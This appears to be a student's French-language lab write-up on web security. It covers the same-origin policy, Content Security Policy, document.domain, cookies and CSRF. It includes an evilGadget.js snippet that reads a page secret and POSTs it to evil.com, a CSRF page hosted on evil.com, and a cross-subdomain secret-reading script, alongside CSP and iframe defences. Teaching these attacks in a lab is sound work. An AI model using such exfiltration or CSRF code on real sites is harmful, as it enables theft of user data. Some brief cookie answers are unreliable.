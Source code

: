 # TP3

**Question 1 : Look at the code of [`integrator.html`](/src/tp3/ressources/integrator.html) and write code for `evilGadget.js` in such a way that evilGadget.js will send the secret to evil.com. Rewrite [`integrator.html`](/src/tp3/ressources/integrator.html) so the same origin policy will protect the secret.**

**Script : [tp3/ressources/integrator.html (localhost live)](http://host.com:8080/tp3/ressources/integrator.html) | [tp3/ressources/integrator.html (code)](/src/tp3/ressources/integrator.html)**

[evilGadget.js](/src/tp3/mycode/evilGadget.js)
[get_secret.php](/src/tp3/mycode/get_secret.php)

```js
const secret = document.getElementById("secret").innerText;

const urlAttackerSever = "http://evil.com:8080/tp3/mycode/get_secret.php";

const request = {
    method: "POST",
    headers: {
        'Content-Type': 'application/json',
    },
    body : JSON.stringify({ secret: secret })
};

fetch(urlAttackerSever, request)
```

**Deux solutions sont possibles :**

Ajouter un CSP (Content Security Policy) dans `integrator.html` pour empêcher le chargement du script `evilGadget.js` :

Il suffit d'ajouter la balise suivante dans le header de la page HTML :

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
```

Ou en transformant la page HTML en script PHP, et en ajoutant le header suivant :

```php
<?php header("Content-Security-Policy: script-src 'self'"); ?>
```

La deuxième solution est à privilégier.

Réponse v1 : [tp3/mycode/integrator_csp.html (localhost live)](http://host.com:8080/tp3/mycode/integrator_csp.html) | [tp3/mycode/integrator_csp.html (code)](/src/tp3/mycode/integrator_csp.html)

Réponse v2 : [tp3/mycode/integrator_csp.php (localhost live)](http://host.com:8080/tp3/mycode/integrator_csp.php) | [tp3/mycode/integrator_csp.html (code)](/src/tp3/mycode/integrator_csp.php)

On remarque que le script `evilGadget.js` n'est pas chargé :

```js
Refused to load the script 'http://evil.com/tp3/mycode/evilGadget_fetch.js' because it violates the following Content Security Policy directive: "script-src 'self'". Note that 'script-src-elem' was not explicitly set, so 'script-src' is used as a fallback
```

**La seconde :**

Pour mettre en place le *SOP* (Same Origin Policy), afin de protéger le secret, il faut mettre une balise `<iframe>` au lieu d'une balise script. Comme la balise `<iframe>` sont conçue pour charger une page HTML dans une autre page HTML. Nous allons devoir créer une page HTML sur le site **`evil.com`**, contenant une balise script ayant pour source **`evilGadget.js`**.

```html
<!-- page web HTML sur evil.com -->
<html>  
<head>  
    <script src="http://evil.com:8080/mycode/evilGadget_fetch.js"></script>  
</head>  
<body>  
<h1>  
    Page from evil.com  
</h1>  
</body>
```

Le gadget est le même vu précédemment.

Nous devons ensuite modifier la page **integrator.html** de manière suivante, afin de changer la balise script par une balise iframe

```html
<!-- integrator.html sur host.com -->
<html>  
<h1>  
    Trusted page  
  
    <div id=secret>  
        42  
    </div>  
</h1>  
  
<iframe src="http://evil.com:8080/mycode/page.html"></iframe>  
</html>
```

Finalement, le site `evil.com` ne peut plus récupérer le secret.

**Question 2 : Look at the [`sop2.html`](/src/tp3/ressources/sop2.html). From [`subdomain2.html`](/src/tp3/ressources/subdomainpage2.html) try to read the secret from the integrator, what happens according to SOP? How do you read the secret by using `document.domain`?**

Il n'est pas possible de récupérer le secret, car la source l'`iframe` ne provient pas de la même origine que le serveur hébergeant la page principale. La raison provient de la politique SOP appliquée par les iframes.

Pour pouvoir lire le secret, il faut changer le nom de domaine dans une balise script fournie par le serveur `subdomain.host.com`. Nous pouvons réaliser cela, en modifiant le fichier `subdomainpage.html` de la manière suivante :

```html
<html>  
<head>  
<h1> This is an iframe of different origin \(subdomain\)</h1>  
<script>  
    document.domain="host.com";  
    mydiv=document.getElementById("secret");  
    alert(mydiv.innerHTML);  
</script>  
</head>  
</html>
```

Nous devrions pouvoir afficher le secret dans une balise alert. Pour que cela fonctionne, il faut aussi modifier le fichier `sop2.html` de la manière suivante :

```html
<html>
<head>
</head>
<body>
    <div id=secret> The secret is 42 </div>
    <script> 
        document.domain = "host.com";
    </script>
    <iframe src="http://subdomain.host.com:8080/tp3/ressources/subdomainpage2.html"> </iframe>
</body>
</html>
```

Il faut que la page principale définisse explicitement la valeur de `document.domain`.

**Question 3 : Write two different services from the same server that set a cookie.**  
**On the client side include a gadget et an try the following things:**

- let the gadget delete the cookie via JavaScript
- can the second service delete the cookie of the first? Justify why.
- let the gadget send the cookie to another server (you can use a different port to simulate this)
- does the previous item work if the gadget is inside a frame?
  - and if the gadget is inside a script and the cookie is initially set as httpOnly?
  - and if the gadget is inside a script and the cookie is initially set as secure?  

**Justify all your answers with code and explanations.**

Le second service peut supprimer le cookie du premier car, les deux scripts appartiennent au même domaine. Ils partagent donc le même espace de stockage au niveau du navigateur, incluant les cookies.

S'il est à l'intérieur d'une frame oui, après ça dépend de la politique SameSite du cookie.

Si le gadget est à l'intérieur d'un script et qu'il est en httpOnly ou en secure, il sera également envoyé.

**Question 4 : Implement a CSRF attack and explain then demonstrate what kind of SameSite cookie can mitigate this attack.**

Pour implémenter une CSRF, nous devons avoir une page web hébergée, par exemple sur `evil.com` qui réalise une requête sur un autre site, par exemple `host.com`.`

[csrf_attack.html](/src/tp3/mycode/csrf_attack.html)

```html
<!-- Page sur evil.com -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<h1>Attaque CSRF on evil.com to host.com</h1>
<script>
    const url = "http://host.com:8080/random_ressouce.html";
    window.location.replace(url);
</script>
</body>
</html>
```

Les cookies de `host.com` sont envoyés au cours de la requête.

